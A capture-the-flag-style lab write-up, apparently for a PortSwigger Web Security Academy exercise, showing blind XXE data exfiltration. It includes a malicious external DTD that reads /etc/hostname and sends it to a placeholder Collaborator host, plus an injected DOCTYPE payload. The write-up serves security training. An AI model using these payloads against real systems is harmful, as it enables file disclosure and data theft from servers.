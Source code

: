 
## Solution
> Manual Exploitation
1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Place the Burp Collaborator payload into a malicious DTD file:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the `/etc/hostname` file.

> Automating the process
- [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/XXE%20Injection/lab-05/lab-05-script.py)

## Video Solution
- [Sommer's Video](https://youtu.be/glA5FwCdspk)
- [Seven Seas Security's Video](https://youtu.be/wqwUqHA_AJE)
